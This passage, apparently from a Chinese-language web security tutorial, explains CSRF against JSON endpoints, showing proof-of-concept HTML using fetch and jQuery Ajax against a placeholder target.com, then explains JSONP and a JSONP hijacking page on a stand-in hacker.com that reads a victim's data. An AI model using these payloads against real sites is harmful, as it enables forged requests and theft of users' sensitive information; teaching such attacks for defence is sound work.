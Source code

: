 ```
<html>
<title>JSON CSRF POC</title>
<script>
        fetch('http://target.com/vul.page',{method:'POST', credentials:'include', headers:{'Content-Type':'text/plain'}, body:'{"name":"attacker","email":"attacker.com"}'});
</script>
</html>
```

#### ajax

Ajax 是一种异步请求数据的 web 开发技术，经常被用来在不刷新页面的情况下，提交和请求数据。

请求 poc:

```
<html>
<title> Ajax CSRF POC</title>
<script>
    $.ajax({
       url:"http://target.com/vul.page",
  type:"POST",
  headers:{"X-CSRFtoken":$.cookie("csrftoken")}，
  data:'{"name":"attacker","email":"attacker.com"}',
  success:functon(res){},
  error:function(err){}
});
</script>
</html>
```

#### jQuery

jQuery 其实就是封装了 js 的一些库 而它发起 http 请求的方式就是 ajax，因此写法参照上文

#### jsonp

Jsonp(JSON with Padding) 是 json 的一种” 使用模式”，可以让网页从别的域名（网站）那获取资料，即跨域读取数据。

JSONP 的语法和 JSON 很像，简单来说就是在 JSON 外部用一个函数包裹着。JSONP 基本语法如下：

`callback({ "name": "kwan" , "msg": "获取成功" });`

JSONP 原理就是动态插入带有跨域 url 的 <script> 标签，然后调用回调函数，把我们需要的 json 数据作为参数传入，通过一些逻辑把数据显示在页面上。

常见的 jsonp 形式类似：`http://www.test.com/index.html?jsonpcallback=hehe`

传过去的 hehe 就是函数名，服务端返回的是一个函数调用，可以理解为：evil 就是一个函数，([“customername1”,”customername2”]) 就是函数参数，网站前端只需要再编写代码处理函数返回的值即可。

jsonp 劫持属于 CSRF 攻击，当某网站通过 JSONP 的方式来跨域传递用户认证后的敏感信息时

攻击者可以构造恶意的 JSONP 调用页面，诱导被攻击者点击访问来截取用户敏感信息，一个典型的 JSON HiJacking 攻击代码：

```
# www.hacker.com/hacker.html
<script>
function hehe(v){
    alert(v.username);
}
</script>
<script src="http://abc.com/?m=info&func=hehe"></script>
```
